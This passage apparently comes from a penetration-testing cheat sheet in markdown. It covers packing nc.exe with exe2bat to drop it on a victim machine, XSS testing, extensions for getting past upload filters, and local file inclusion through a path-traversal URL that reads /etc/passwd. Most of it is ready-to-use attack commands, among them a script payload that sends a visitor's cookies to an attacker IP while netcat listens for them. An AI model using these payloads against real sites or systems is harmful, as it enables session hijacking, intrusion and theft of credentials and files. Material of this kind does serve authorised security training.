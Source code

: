 5. 	```
	locate exe2bat
	```

6. 	```
	cp /usr/share/windows-binaries/exe2bat.exe .
	```

7. 	```
	wine exe2bat.exe nc.exe nc.txt
	```
	Convert .exe to .txt file for victim's debug.exe to be unpacked.

***

## Web Application Attacks

Test to see if site is vulnerable to XSS:

```
<script>alert("XSS")</script>
```

Stealing cookies and session information:

```
<script>new Image().src="http://10.11.0.219/bogus.php?output="+document.cookie;</script>
```

Once the script tag is in place, run ''nc'' to capture the cookie when the user loads the page:

```
nc -nvlp 80
```

Bypass file upload filtering and restrictions:

```
php - phtml, .php, .php3, .php4, .php5, and .inc
asp - asp, .aspx
perl - .pl, .pm, .cgi, .lib
jsp - .jsp, .jspx, .jsw, .jsv, and .jspf
Coldfusion - .cfm, .cfml, .cfc, .dbm
```

***

## Local File Inclusion (LFI)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

In the following examples we include the /etc/passwd file.

```
http://example.com/index.php?page=../../../etc/passwd
```

#### Null Byte
